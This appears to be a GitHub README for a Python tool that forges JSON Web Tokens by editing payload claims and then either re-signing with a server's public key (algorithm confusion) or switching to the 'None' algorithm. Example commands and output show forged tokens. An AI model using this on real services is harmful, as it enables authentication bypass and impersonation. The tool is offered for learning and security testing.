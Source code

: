 # JWTF?!  
  
JWTF was built to help me further understand some funky attacks against JSON Web Tokens. So far this tool will take an existing JWT and allow the payload to be modified either dynamically (within an interactive shell - default), or automatically by supplying the choice and forcing it to run in one-liner mode.
  
## Modes:  
  
0: Runs all  (W.I.P)
1: Allows patching and resigns target JWT with provided public key   
2: Allows patching and rebuilds JWT with None algorithm  

## Options:
  
```
usage: jwtf.py [-h] [--ol] [--quiet] {0,1,2} ... jwt

positional arguments:
  {0,1,2}
  jwt         The server supplied JWT

optional arguments:
  -h, --help  show this help message and exit
  --ol        Run in one-liner
  --quiet     Surpress debug prints and output noise
```
  
Interactive Usage (Mode = 1):  
```
python3 jwtf.py 1 --key="test.pub" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5"
```
  
Output:  
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [1] Resign with public key

[*] Loading public key from: test.pub
lol

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] JWT is already HS256
	Header: {'alg': 'HS256', 'typ': 'JWT'}
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : John Doe : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: 1  
New value for name (type: <class 'str'>): Terry
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : Terry : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: -1
[*] Finished patching
	Payload: {'sub': '1234567890', 'name': 'Terry', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogIlRlcnJ5IiwgImlhdCI6IDE1MTYyMzkwMjJ9.R5y0MxNrDDg6c-6X-6iMLP4wtObZmw3vrogjpOzGCLA
----------------------------------
```
  
Interactive Usage (Mode = 2):  
```
python3 jwtf.py 2 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5"
```
  
Output:  
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [2] Rebuild with None

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] Algorithm patched to None
	Header: {'alg': 'None', 'typ': 'JWT'}
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : John Doe : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: 1
New value for name (type: <class 'str'>): Susan
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : Susan : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: -1
[*] Finished patching
	Payload: {'sub': '1234567890', 'name': 'Susan', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogIlN1c2FuIiwgImlhdCI6IDE1MTYyMzkwMjJ9.
----------------------------------
```
  
One-liner Usage (Mode = 2):  
```
python3 jwtf.py 2 --choices="name:jeff" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5" --ol
```
  
Output:  
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [2] Rebuild with None

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] Algorithm patched to None
	Header: {'alg': 'None', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'jeff', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogImplZmYiLCAiaWF0IjogMTUxNjIzOTAyMn0.
----------------------------------
```
  
## Quiet mode for pipeline usage  
  
Usage:
```
gary@MacBook-Air JwtTheFuck % python3 jwtf.py 2 --choices="name:jeff" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5" --ol --quiet
```
  
Output:
```
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogImplZmYiLCAiaWF0IjogMTUxNjIzOTAyMn0.
```